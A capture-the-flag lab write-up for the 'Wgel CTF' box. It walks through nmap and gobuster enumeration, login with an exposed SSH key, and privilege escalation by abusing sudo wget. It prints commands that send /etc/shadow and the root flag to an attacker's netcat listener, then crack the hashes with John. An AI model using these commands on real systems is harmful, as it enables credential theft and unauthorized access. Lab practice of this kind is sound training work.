




# Wgel CTF

## Reconnaissance

ip address : 10.10.35.232

## Scanning & Enumeration

* Nmap Scanning

```shell
nmap -A -T4 -p- -oN nmap/all_port 10.10.35.232
```

scan result [here](nmap/all_port)
open port are :
number | service | version
--- | --- | ---
22 | ssh |  OpenSSH 7.2p2
80 | http | Apache httpd 2.4.18 ((Ubuntu))

found a possible username at the default page : jessie

  
* Gobuster directory finding

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.35.232
```

we found the /sitemap directory
<http://10.10.35.232/sitemap/>

change the word list and scan again

```shell
gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://10.10.35.232/sitemap/
```

we got somme interesting finding


what help us to find a ssh key [id_rsa](jessie_id_rsa)

## Exploitation

* try  ssh creds
  
we try the id_rsa key en ssh username we already found :

```shell
ssh -i jessie_id_rsa 10.10.35.232
```

lucky for us the key is not encrypted and we got a ssh shell



we can now grab the user flag.

### Privilege escalation

Now it's time to get root

* sudo -l
we got a easy attack vector


* the shadow file
  
  [GTFObin](https://gtfobins.github.io/gtfobins/wget/) get us every thing we need to exploit it.

set up nc to listen for the shadow file

```shell
nc -lvp 80 > shadow
```

send the shadow file

```shell
sudo /usr/bin/wget --post-file=/etc/shadow 10.8.2.244
```

we got our copy of the [shadow file](shadow)

more details info can be found [here](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)

* Crack the Hash with John

```shell
john shadow --wordlist=/usr/share/wordlists/rockyou.txt
```

the cracking take long time to find the passowrd so, i decided to cancel it and just grab the root file.

* Grab the root file
  
we proceed as for the shadow file

```shell
sudo /usr/bin/wget --post-file="/root/root_flag.txt" 10.8.2.244
```

we know have the root flag
